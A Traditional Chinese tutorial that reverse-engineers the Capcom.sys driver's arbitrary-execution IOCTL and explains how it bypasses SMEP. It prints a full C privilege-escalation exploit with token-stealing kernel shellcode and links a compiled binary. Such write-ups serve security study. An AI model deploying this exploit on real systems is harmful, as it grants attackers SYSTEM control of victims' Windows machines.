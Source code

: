 # 【第 11 話】Capcom.sys 研究－任意程式執行

## 文章大綱
我們在[【第 10 話】Windows Kernel Shellcode](/asset/第%2010%20話) 學習寫竄改 EPROCESS Token 的 Shellcode，就是為了這篇的漏洞研究，利用 Capcom.sys 的漏洞執行任意 Shellcode，寫攻擊腳本達成提權。最後則會介紹 SMEP 保護，以及說明為什麼 Capcom.sys 可以在有 SMEP 的狀況下在 Kernel 執行應用層的程式。


## 介紹 Capcom.sys
卡普空有限公司，是一家日本的電子遊戲開發商與發行商。創立於 1979 年，以日本大型電玩製造商開始，發展成如今在日本、美國、歐洲、亞洲都設有事務所的國際公司。

從我的 GitHub 下載目標驅動程式檔案 [Capcom.sys](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitCapcom/bin/capcom.sys)，它是由卡普空開發的驅動程式，對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 Capcom.sys 的數位簽章資訊，是 2016 年 9 月 6 日的簽章。

![](signature.png)


## 逆向分析
在 IDA 中開啟 Capcom.sys，直接分析 `DriverEntry` 可以看到 Dispatcher，但是卻找不到 Symbolic Link Name。這是因為 Symbolic Link Name 在程式中才動態被解密，解密結果為 `Htsysm72FB`。

![](DriverEntry.png)

跟進去分析 Dispatcher，程式中定義兩個 IoControlCode 0xAA012044 跟 0xAA013044。兩個做的事其實差不多，只差在 0xAA012044 的輸入是 4 bytes，而 0xAA013044 的輸入是 8 bytes，總之它們在最後都會執行一個函數，我把它取名為 `ExecuteShellcode`。

![](IoControlCode.png)

再繼續跟進去看 `ExecuteShellcode`，程式將我們的輸入當成一個函數指標，之後呼叫了它。顯然這邊就有一個執行任意程式的功能，但同時也是可被濫用的漏洞。

![](ExecuteShellcode.png)


## 寫程式
Shellcode 的部分延續[【第 10 話】Windows Kernel Shellcode](/asset/第%2010%20話)，我將它改成用在 Capcom.sys 的攻擊腳本中。完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/ExploitCapcom)。

程式執行步驟如下
1. 取得 Device Handle
2. 申請要傳送到驅動程式的記憶體
3. 寫入提權的 Shellcode
4. 觸發 Capcom.sys 的任意執行
5. 執行 cmd

```c
int main(int argc, const char *argv[])
{
    // 1. 取得 Device Handle
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 0;
    }

    // 2. 申請要傳送到驅動程式的記憶體
    IOCTL_IN_BUFFER *InBufferContents =
        (IOCTL_IN_BUFFER *)VirtualAlloc(nullptr, sizeof(IOCTL_IN_BUFFER), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!InBufferContents)
    {
        printf("VirtualAlloc failed with Win32 error code: %x\n", GetLastError());
        return 0;
    }
    InBufferContents->ShellcodeAddress = InBufferContents->Shellcode;

    // 3. 寫入提權的 Shellcode
    BYTE token_steal[] =
        "\x65\x48\x8B\x14\x25\x88\x01\x00\x00"    // mov rdx, [gs:188h]     ; 從 KPCR 取得 ETHREAD 位址
        "\x4C\x8B\x82\xB8\x00\x00\x00"            // mov r8, [rdx + b8h]    ; 從 ETHREAD 取得 EPROCESS 位址
        "\x4D\x8B\x88\xe8\x02\x00\x00"    // mov r9, [r8 + 2e8h]    ; 從 EPROCESS 取得 ActiveProcessLinks 的 List Head 位址
        "\x49\x8B\x09"                    // mov rcx, [r9]          ; 取得 List 中第一個 Process 的 ActiveProcessLinks
        // find_system_proc:   ; 迴圈找到 system 的 EPROCESS 並取得 Token 的值
        "\x48\x8B\x51\xF8"    // mov rdx, [rcx - 8]    ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
        "\x48\x83\xFA\x04"    // cmp rdx, 4            ; 確認 UniqueProcessId 是不是 System Process (pid: 4)
        "\x74\x05"            // jz found_system       ; 如果是 System 就跳到 found_system
        "\x48\x8B\x09"        // mov rcx, [rcx]        ; 不是 System 就繼續從找下個 Process
        "\xEB\xF1"            // jmp find_system_proc
        // found_system:
        "\x48\x8B\x41\x70"    // mov rax, [rcx + 70h]  ; 取得在 ActiveProcessLinks (0x2e8) 後面的 Token (0x358)
        "\x24\xF0"            // and al, 0f0h          ; 清除 TOKEN 的 _EX_FAST_REF 結構後 4 bits 的 flags
        // find_current_process:    ; 迴圈找到目標 Process 的 EPROCESS
        "\x48\x8B\x51\xF8"    // mov rdx, [rcx-8]      ; 取得在 ActiveProcessLinks (0x2e8) 前面的 UniqueProcessId (0x2e0)
        "\x48\x81\xFA\x99\x99\x00\x00"    // cmp rdx, <Current Process>    ; 確認 UniqueProcessId 是不是目標 Process
        "\x74\x05"                        // jz found_cmd      ; 是目標 Process 就跳到 found_current_process
        "\x48\x8B\x09"                    // mov rcx, [rcx]    ; 不是目標 Process 就繼續找下個 Process
        "\xEB\xEE"                        // jmp find_current_process
        // found_current_process:
        "\x48\x89\x41\x70"    // mov [rcx+70h], rax    ; 把目標 Process 的 EPROCESS Token 竄改為 System 的 EPROCESS Token
        "\xc3";               // ret

    // 將 pid 填入 Shellcode
    token_steal[54] = GetCurrentProcessId();
    token_steal[55] = GetCurrentProcessId() >> 8;

    // 把提權 Shellcode 寫入要傳送到驅動程式的記憶體中
    memcpy(InBufferContents->Shellcode, token_steal, 71);

    // 4. 觸發 Capcom.sys 的任意執行
    uint32_t OutBuffer = 0;
    DWORD dwWrite = 0;
    DeviceIoControl(hDevice, 0xaa013044, InBufferContents, 8, &OutBuffer, 4, &dwWrite, nullptr);

    // 5. 執行 cmd，如果有成功提權應該是 System 權限
    system("cmd");
    VirtualFree(InBufferContents, 0, MEM_RELEASE);
    return 0;
}
```


## 測試
1. 在 VM 中載入 [Capcom.sys](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitCapcom/bin/capcom.sys)
2. 用一般使用者權限執行 [ExploitCapcom.exe](https://github.com/zeze-zeze/2023iThome/blob/master/ExploitCapcom/bin/ExploitCapcom.exe)，會看到一個 cmd 跳出來
3. 輸入 `whoami` 會看到已經成功提權 `system`。


## Kernel 保護－SMEP
### 介紹
SMEP（Supervisor Mode Execution Prevention）是 Windows 的保護機制，在 Windows 8.1 後預設啟用，目的是要防止應用層的程式在 Kernel 層執行，算是一種針對應用層 Shellcode 的防禦。假入嘗試在 Kernel 層執行應用層的程式，會造成 BSOD。

在暫存器 cr4 中的第 20 bit 如果是 1，代表 SMEP 被啟用，反之 0 就是關閉。

![](SMEP.png)


### Capcom.sys 攻擊腳本怎麼能正常執行？
既然有 SMEP 的存在，明明我們的 Shellcode 是存在應用層的記憶體中，為什麼驅動程式還是能正常執行 Shellcode 而不會造成系統崩潰呢？

謎底在逆向分析時的 `ExecuteShellcode`，程式在呼叫我們的 Shellcode 前後，分別更改 cr4 來關閉與開啟 SMEP。因此這個任意執行對於卡普空而言是個功能，對於攻擊者來說則是一個方便使用的漏洞。

![](ExecuteShellcode2.png)

關閉 SMEP 的方式就是將 cr4 的第 20 個 bit 改為 0，並把舊的 cr4 存在參數中。

![](DisableSMEP.png)

開啟 SMEP 的方式則是把舊的 cr4 值寫回去。

![](EnableSMEP.png)


## 參考資料
- [tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom/)
- [卡普空](https://zh.wikipedia.org/zh-tw/%E5%8D%A1%E6%99%AE%E7%A9%BA)
- [Manipulating ActiveProcessLinks to Hide Processes in Userland](https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/manipulating-activeprocesslinks-to-unlink-processes-in-userland)